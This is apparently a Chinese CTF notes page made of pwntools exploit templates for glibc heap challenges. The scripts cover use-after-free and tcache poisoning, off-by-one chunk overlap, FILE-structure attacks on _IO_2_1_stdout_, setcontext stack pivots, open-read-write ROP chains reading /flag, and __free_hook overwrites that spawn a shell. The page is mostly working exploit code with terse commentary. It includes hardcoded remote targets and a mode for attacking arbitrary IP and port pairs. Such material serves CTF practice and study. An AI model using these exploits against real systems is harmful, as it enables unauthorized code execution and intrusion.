




# 或许一把梭

‍

### 高版本libc 四功能齐全 del UAF

‍

```python
from pwn import *
import sys

# Define lambda functions for common operations
s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(delim, data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(delim, data)
r       = lambda num                :io.recv(num)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :ls('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))
itr     = lambda                    :io.interactive()
# Context settings
context.arch      = 'amd64'
context.log_level = 'debug' # info
context.terminal  = ['tmux','splitw','-h','-l','170']
def start(binary,argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if   args.GDB: return gdb.debug([binary] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.CMD: return process(binary.split(' '))
    elif args.REM: return remote('140.206.122.25',50239)
    elif args.AWD: return remote(sys.argv[1], int(sys.argv[2]))
    '''     Usage: python3 exp.py AWD <IP> <PORT>   '''
    return process([binary] + argv, *a, **kw)

binary = './easy_heap'
libelf = ''
try:
    elf  = ELF(binary);rop = ROP(binary)
    libc = ELF(libelf) if libelf else elf.libc
    ''' Load binary and libraries '''
except: exit(0)

gdbscript = '''

#continue
'''.format(**locals())
io = start(binary)

def add(idx,size):
    ru('>>')
    sl('1')
    ru('index:')
    sl(str(idx))
    ru(':')
    sl(str(size))
def rm(idx):
    ru('>>')
    sl('2')
    ru('index:')
    sl(str(idx))
def edit(idx,text):
    ru('>>')
    sl('3')
    ru('index:')
    sl(str(idx))
    s(text)
def show(idx):
    ru('>>')
    sl('4')
    ru('index:')
    sl(str(idx))

add(0,0x500)
add(1,0x100)
add(2,0x100)
rm(0)
show(0)
libc_base = uu64(r(6)) - 2198720
libc.address = libc_base
_IO_2_1_stdout_ = libc.sym['_IO_2_1_stdout_']
lss('libc_base')


rm(2)
rm(1)

show(2)
key = uu64(r(5))
lss('key')
edit(1,p64(key ^ _IO_2_1_stdout_))
#edit(1,p64(_IO_2_1_stdout_))
add(3,0x100)

add(4,0x100)

fake_IO_addr = libc.sym['_IO_2_1_stdout_']

pay = flat({
    0x00: '  sh;',
    0x18: libc.sym['system'],
    0x20: fake_IO_addr, # 0x20 > 0x18
    0x68: 0,                # rdi  #read fd
    0x70: fake_IO_addr,     # rsi  #read buf
    0x88: fake_IO_addr + 0x8,     # rdx  #read size
    0xa0: fake_IO_addr,
    0xa8: libc.sym['read'], # RCE2 ogg
    0xd8: libc.sym['_IO_wfile_jumps'] + 0x30 - 0x20,
    0xe0: fake_IO_addr,
    },filler=b'\x00')

edit(4,pay)
#gdb.attach(io,gdbscript)


itr()

```

‍

## libc2.31 edit 溢出 ORW

‍

```bash
from pwn import *
import sys

# Define lambda functions for common operations
s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(delim, data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(delim, data)
r       = lambda num                :io.recv(num)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :ls('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))
itr     = lambda                    :io.interactive()
# Context settings
context.arch      = 'amd64'
context.log_level = 'debug' # info
context.terminal  = ['tmux','splitw','-h','-l','170']
def start(binary,argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if   args.GDB: return gdb.debug([binary] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.CMD: return process(binary.split(' '))
    elif args.REM: return remote()
    elif args.AWD: return remote(sys.argv[1], int(sys.argv[2]))
    '''     Usage: python3 exp.py AWD <IP> <PORT>   '''
    return process([binary] + argv, *a, **kw)

binary = './chal'

libc = ELF('./libc.so.6')
#libc = ELF('/opt/glibc-all-in-one/libs/2.31-0ubuntu9.14_amd64/libc.so.6')

#import socks
#context.proxy = (socks.SOCKS5, '192.168.80.102', 10808)

io = process(binary)
#io = remote('',)

def add(size):
    ru('4.show a comment\n')
    sl('1')
    ru(': \n')
    sl(str(size))
def rm(idx):
    ru('4.show a comment\n')
    sl('2')
    ru(':\n')
    sl(str(idx))
def edit(idx,size,text):
    ru('4.show a comment\n')
    sl('3')
    ru(':\n')
    sl(str(idx))
    ru(': \n')
    sl(str(size))
    ru(': \n')
    s(text)
def show(idx):
    ru('4.show a comment\n')
    sl('4')
    ru(':\n')
    sl(str(idx))
    ru('ent : ')


add(0x500)
add(0x100)
rm(0)
add(0x100)

show(1)
libc_base = uu64(r(6)) -  2019344

add(0x100)
add(0x100)

rm(3)
rm(2)
libc.address = libc_base
pay = b'A' * 0x108
pay += p64(0x101)
pay += p64(libc.sym['_IO_2_1_stdout_'])

edit(1,len(pay),pay)
add(0x100)
add(0x100)


fake_IO_addr = libc.sym['_IO_2_1_stdout_']
pay = flat({
    0x00: '  sh;',
    0x18: libc.sym['setcontext'] + 61,
    0x20: fake_IO_addr, # 0x20 > 0x18
    0x68: fake_IO_addr,                # rdi  #read fd
    0x70: 0,     # rsi  #read buf
    0x78: fake_IO_addr,     # rsi2  #read buf
    0x88: fake_IO_addr + 0x8,     # rdx  #read size
    0x90: 0x400,     # rdx2  #read size
    0x98: 0x23,     # rdx  #read size
    0xa0: fake_IO_addr,
    0xa8: libc.sym['setcontext']+294, # RCE2 ogg
    0xb0: libc.sym['read'], # RCE2 ogg
    0xd8: libc.sym['_IO_wfile_jumps'] + 0x30 - 0x20,
    0xe0: fake_IO_addr,
    },filler=b'\x00')

#gdb.attach(io,'brva 0x001702')
edit(3,len(pay),pay)

sleep(1)

libc_rop = ROP(libc)
rax = libc_rop.find_gadget(['pop rax','ret'])[0]
rdi = libc_rop.find_gadget(['pop rdi','ret'])[0]
rsi = libc_rop.find_gadget(['pop rsi','ret'])[0]
#rdx = libc_rop.find_gadget(['pop rdx','ret'])[0]
rdx = libc_rop.find_gadget(['pop rdx','pop rbx','ret'])[0]
syscall = libc_rop.find_gadget(['syscall','ret'])[0]

orw_rop_addr = fake_IO_addr

orw_rop  = p64(rax) + p64(2) + p64(rdi) + p64(orw_rop_addr+0xd0) + p64(rsi) + p64(0) + p64(rdx) + p64(0)*2 + p64(syscall)
orw_rop += p64(rdi) + p64(3) + p64(rsi) + p64(orw_rop_addr+0xd0) + p64(rdx) + p64(0x100)*2 + p64(libc.sym['read'])
orw_rop += p64(rdi) + p64(1) + p64(rsi) + p64(orw_rop_addr+0xd0) + p64(rdx) + p64(0x100)*2 + p64(libc.sym['write'])
orw_rop += b'/flag'.ljust(0x10,b'\x00')
sl(orw_rop)

lss('libc_base')


itr()

```

‍

‍

## libc 2.27 没有show 没有uaf ,堆溢出，堆块限制

‍

‍

[fl0wer_G0d.zip](assets/fl0wer_G0d-20241016115558-bx12pso.zip)

‍

- 存在 off by one

‍

- 有花指令，去花指令脚本

```python
s = 0x0
e = 0xF8C

for i in range(s,e):
    t = ida_bytes.get_dword(i)
    t2 = ida_bytes.get_byte(i+4)
    if (t == 0x01750374 or t == 0x01740375) and t2 == 0xe8:
        print("yes")
        patch_dword(i, 0x90909090)
        patch_byte(i+4, 0x90)
```

- 没有show 功能，
- 漏洞点，如果 heap 被填满，会导致 strlen 的时候会把 下面chunk 的 size 也计算进去
- 导致 off by all



- 通过堆块重叠，让 unsortedbin 的fd 覆盖 tcachebins 的 fd,即可申请到 libc(_IO_2_1*stdout* 泄露地址), 需要小小的爆破一下 1/16 的可能





漏洞地址后用同样的反法 任意地址申请到 free_hook ，然后 ORW 绕过 沙箱即可



```python
from pwn import *
import sys

# Define lambda functions for common operations
s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(delim, data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(delim, data)
r       = lambda num                :io.recv(num)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :ls('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))
itr     = lambda                    :io.interactive()
# Context settings
context.arch      = 'amd64'
context.log_level = 'debug' # info
context.terminal  = ['tmux','splitw','-h','-l','170']
def start(binary,argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if   args.GDB: return gdb.debug([binary] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.CMD: return process(binary.split(' '))
    elif args.REM: return remote('47.92.27.98',20530)
    elif args.AWD: return remote(sys.argv[1], int(sys.argv[2]))
    '''     Usage: python3 exp.py AWD <IP> <PORT>   '''
    return process([binary] + argv, *a, **kw)

binary = './fl0wer_G0d'
libelf = ''

elf  = ELF(binary);rop = ROP(binary)
libc = elf.libc

gdbscript = '''
#continue
'''.format(**locals())


#import socks
#context.proxy = (socks.SOCKS5, '192.168.80.102', 10808)


def add(idx,size,text='A'):
    ru('4:Drop one')
    sl('1')
    ru('one')
    sl(str(idx))
    ru('size:')
    sl(str(size))
    ru('content:')
    s(text)
def check():
    ru('4:Drop one')
    sl('2')
def edit(idx,text):
    ru('4:Drop one')
    sl('3')
    ru('Which one?')
    sl(str(idx))
    ru('ent:')
    s(text)
def rm(idx):
    ru('4:Drop one')
    sl('4')
    ru('one?')
    sl(str(idx))


for i in range(100):
    io = start(binary)

    add(0,0xF8,'A'*0xF8)
    for i in range(1,5):
        add(i,0xF8,str(i))

    pay = p64(0) * 11
    pay += p64(0xa1)
    add(6,0xF8,pay)


   
    rm(3)
    rm(2)
    rm(1)

    add(2,0x78,'A')
    add(3,0x78,'B')
    rm(2)

    add(2,0x48,p16(0x1760 + 0x28)) # remote
    #add(2,0x48,p16(0xc760 + 0x28)) #local
  
    try:
        add(1,0xf8,'A')
        add(5,0xf8,p8(0xff))
        ru('\n\x00\x00\x00\x00')
        libc_base = uu64(r(8)) - 4118720
        libc.address = libc_base 
        lss('libc_base')
        #rm(1)
        #add(1,0xf8,'A')
        rm(0)
        rm(4)
        add(0,0xe8)
        rm(0)
        add(0,0xb8)
        rm(0)
        rm(2)
        #add(0,0x28,p64(libc.sym['_IO_2_1_stdout_'])) #
        add(0,0x28,p64(libc.sym['__free_hook']))

        fake_IO_addr = libc.sym['__free_hook']

        pay = flat({
            0xa0: fake_IO_addr,
            0xa8: libc.sym['read'],
            0x70: fake_IO_addr,
            0x88: 0x300,

            },filler=b'\x00')

        add(2,0xf8,pay)


        pay = flat({
            0x00: libc.sym['setcontext'] + 53,
            },filler=b'\x00')
  
  
        #gdb.attach(io,gdbscript)

        add(4,0xf8,pay)
   
        rm(2)
        pause()
   
        libc_rop = ROP(libc)
        rax = libc_rop.find_gadget(['pop rax','ret'])[0]
        rdi = libc_rop.find_gadget(['pop rdi','ret'])[0]
        rsi = libc_rop.find_gadget(['pop rsi','ret'])[0]
        rdx = libc_rop.find_gadget(['pop rdx','ret'])[0]
        #rdx = libc_rop.find_gadget(['pop rdx','pop rbx','ret'])[0]
        syscall = libc_rop.find_gadget(['syscall','ret'])[0]

        orw_rop_addr = fake_IO_addr

        orw_rop  = p64(rax) + p64(2) + p64(rdi) + p64(orw_rop_addr+0xb8) + p64(rsi) + p64(0) + p64(rdx) + p64(0) + p64(syscall)
        orw_rop += p64(rdi) + p64(3) + p64(rsi) + p64(orw_rop_addr+0xb8) + p64(rdx) + p64(0x100) + p64(libc.sym['read'])
        orw_rop += p64(rdi) + p64(1) + p64(rsi) + p64(orw_rop_addr+0xb8) + p64(rdx) + p64(0x100) + p64(libc.sym['write'])
        orw_rop += b'/flag'.ljust(0x10,b'\x00')
        sl(orw_rop)

        #rm(1)
        itr()
    except:
        io.close()
        pass
```

‍

‍

## 没有show libc (system)

申请到free_hook

```python
from pwn import *
#from ctypes import CDLL
#cdl = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = ''.replace(' ',':')
binary = './fl0wer_G0d'

def start(argv=[], *a, **kw):
    if args.GDB:return gdb.debug(binary,gdbscript)
    if args.TAG:return remote(*args.TAG.split(':'))
    if args.REM:return remote(*attack.split(':'))
    return process([binary] + argv, *a, **kw)


#context(log_level = 'debug')
context(binary = binary, log_level = 'debug',
terminal='tmux splitw -h -l 170'.split(' '))
libc = context.binary.libc
#elf  = ELF(binary)
#print(context.binary.libs)
#libc = ELF('./libc.so.6')
#import socks
#context.proxy = (socks.SOCKS5, '192.168.31.251', 10808)
gdbscript = '''
brva 0x00EF5
#continue
'''.format(**locals())
#import os
#os.systimport os
#io = remote(*attack.split(':'))

def add(idx,size,text='A'):
    ru('4:Drop one')
    sl('1')
    ru('one')
    sl(str(idx))
    ru('size:')
    sl(str(size))
    ru('content:')
    s(text)
def check():
    ru('4:Drop one')
    sl('2')
def edit(idx,text):
    ru('4:Drop one')
    sl('3')
    ru('Which one?')
    sl(str(idx))
    ru('ent:')
    s(text)
def rm(idx):
    ru('4:Drop one')
    sl('4')
    ru('one?')
    sl(str(idx))


for i in range(100):
    io = start([])
    add(0,0xF8,'B'*0xF8)
    add(1,0xF8,'B'*0xF8)
    add(2,0xF8,'B'*0x8)
    add(3,0xF8,'B'*0x8)
    add(4,0xe8,'B'*0x8)
    add(5,0xe8,'B'*0x8)


    add(6,0xF8,'AAA')
    pay  = b'C' * 0xF8
    pay += p16(0x501 - 0x20)
    edit(0,pay)


    rm(3)
    rm(2)
    rm(1)

    stdout = (libc.sym['_IO_2_1_stdout_'] + 0x28) & 0x0FFF
    lss('stdout')

    add(2,0x78,'\x00')
    add(3,0x78,'\x00')
    rm(5)
    rm(4)


    add(1, 0x78, p16(0x2000 + stdout)) # 0x2000 需要搞一下

    try:
        add(4,0xF8,'A')
        add(5,0xF8,'\xFF')
        ru('\x00'*4)
        libc_base = uu64(r(8)) - 2025440
        libc.address = libc_base
        lss('libc_base')

        assert(libc_base&0xFFF == 0)

        rm(0)
        rm(1)

        add(0,0xF8,'A')
        add(1,0xF8,'ABC')
        rm(0)
        pay  = b'\x00' * 0x80
        pay += p64(libc.sym['__free_hook'])
        add(0,0xA8,pay)

        rm(0)
        rm(1)

        add(0,0xe8,'/bin/sh\x00')
        pay = p64(libc.sym['system'])
        add(1,0xe8,pay)
        rm(0)
        gdb.attach(io,gdbscript)
        itr()
    except:
        io.close()
        pass

    #pay = flat({
    #},filler=b'\x00')

# libc.address = libc_base
# system = libc.sym['system']
# bin_sh = next(libc.search(b'/bin/sh'))

```

‍

## 没有show libc (IO attack)

‍

```python
from pwn import *
#from ctypes import CDLL
#cdl = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = ''.replace(' ',':')
binary = './fl0wer_G0d'

def start(argv=[], *a, **kw):
    if args.GDB:return gdb.debug(binary,gdbscript)
    if args.TAG:return remote(*args.TAG.split(':'))
    if args.REM:return remote(*attack.split(':'))
    return process([binary] + argv, *a, **kw)


#context(log_level = 'debug')
context(binary = binary, log_level = 'debug',
terminal='tmux splitw -h -l 170'.split(' '))
libc = context.binary.libc
#elf  = ELF(binary)
#print(context.binary.libs)
#libc = ELF('./libc.so.6')
#import socks
#context.proxy = (socks.SOCKS5, '192.168.31.251', 10808)
gdbscript = '''
brva 0x00EF5
#continue
'''.format(**locals())
#import os
#os.systimport os
#io = remote(*attack.split(':'))

def add(idx,size,text='A'):
    ru('4:Drop one')
    sl('1')
    ru('one')
    sl(str(idx))
    ru('size:')
    sl(str(size))
    ru('content:')
    s(text)
def check():
    ru('4:Drop one')
    sl('2')
def edit(idx,text):
    ru('4:Drop one')
    sl('3')
    ru('Which one?')
    sl(str(idx))
    ru('ent:')
    s(text)
def rm(idx):
    ru('4:Drop one')
    sl('4')
    ru('one?')
    sl(str(idx))


for i in range(100):
    io = start([])
    add(0,0xF8,'B'*0xF8)
    add(1,0xF8,'B'*0xF8)
    add(2,0xF8,'B'*0x8)
    add(3,0xF8,'B'*0x8)
    add(4,0xe8,'B'*0x8)
    add(5,0xe8,'B'*0x8)


    add(6,0xF8,'AAA')
    pay  = b'C' * 0xF8
    pay += p16(0x501 - 0x20)
    edit(0,pay)


    rm(3)
    rm(2)
    rm(1)

    stdout = (libc.sym['_IO_2_1_stdout_'] + 0x28) & 0x0FFF
    lss('stdout')

    add(2,0x78,'\x00')
    add(3,0x78,'\x00')
    rm(5)
    rm(4)


    add(1, 0x78, p16(0x2000 + stdout)) # 0x2000 需要搞一下

    try:
        add(4,0xF8,'A')
        add(5,0xF8,'\xFF')
        ru('\x00'*4)
        libc_base = uu64(r(8)) - 2025440
        libc.address = libc_base
        lss('libc_base')

        assert(libc_base&0xFFF == 0)

        rm(0)
        rm(1)

        add(0,0xF8,'A')
        add(1,0xF8,'ABC')
        rm(0)
        pay  = b'\x00' * 0x80
        pay += p64(libc.sym['_IO_2_1_stdout_'])
        add(0,0xA8,pay)

        rm(0)
        rm(1)

        add(0,0xe8,'A')
        fake_IO_addr = libc.sym['_IO_2_1_stdout_']


        pay = flat({
            0x00: '  sh;',
            0x18: libc.sym['setcontext'] + 61,
            0x20: fake_IO_addr, # 0x20 > 0x18
            0x68: fake_IO_addr,                # rdi  #read fd
            0x70: 0,     # rsi  #read buf
            0x78: fake_IO_addr,     # rsi2  #read buf
            0x88: fake_IO_addr + 0x8,     # rdx  #read size
            0x90: 0x400,     # rdx2  #read size
            0x98: 0x23,     # rdx  #read size
            0xa0: fake_IO_addr,
            0xa8: libc.sym['setcontext'] + 294, # RCE2 ogg
            0xb0: libc.sym['read'], # RCE2 ogg
            0xd8: libc.sym['_IO_wfile_jumps'] + 0x30 - 0x20,
            0xe0: fake_IO_addr,
            },filler=b'\x00')
        #gdb.attach(io,'brva 0x0AB5')
        add(1,0xe8,pay[:0xe8])

        pause()
        libc_rop = ROP(libc)
        rax = libc_rop.find_gadget(['pop rax','ret'])[0]
        rdi = libc_rop.find_gadget(['pop rdi','ret'])[0]
        rsi = libc_rop.find_gadget(['pop rsi','ret'])[0]
        m = 0
        try:
            rdx = libc_rop.find_gadget(['pop rdx','ret'])[0];m = 1
        except:
            rdx = libc_rop.find_gadget(['pop rdx','pop rbx','ret'])[0]; m = 2
        syscall = libc_rop.find_gadget(['syscall','ret'])[0]

        orw_rop_addr = libc.sym['_IO_2_1_stdout_'] # ret to addr
        buf = orw_rop_addr + 0xa0 + m*3*8
        orw_rop  = p64(rax) + p64(2) + p64(rdi) + p64(buf) + p64(rsi) + p64(0) + p64(rdx) + p64(0)*m + p64(syscall)
        orw_rop += p64(rdi) + p64(3) + p64(rsi) + p64(buf) + p64(rdx) + p64(0x100)*m + p64(libc.sym['read'])
        orw_rop += p64(rdi) + p64(1) + p64(rsi) + p64(buf) + p64(rdx) + p64(0x100)*m + p64(libc.sym['write'])
        orw_rop += b'/flag'.ljust(0x10,b'\x00')
        pause()
        sl(orw_rop)
        itr()
    except:
        io.close()
        pass

    #pay = flat({
    #},filler=b'\x00')

# libc.address = libc_base
# system = libc.sym['system']
# bin_sh = next(libc.search(b'/bin/sh'))

```

‍

## getsb

‍

```python
libc = ELF('./libc.so.6')
libc.address = libc_base
system = libc.sym['system']
bin_sh = next(libc.search(b'/bin/sh'))
poprdi = next(libc.search(asm('pop rdi;ret')))
rop = p64(poprdi+1) + p64(poprdi) + p64(bin_sh) + p64(system)
```
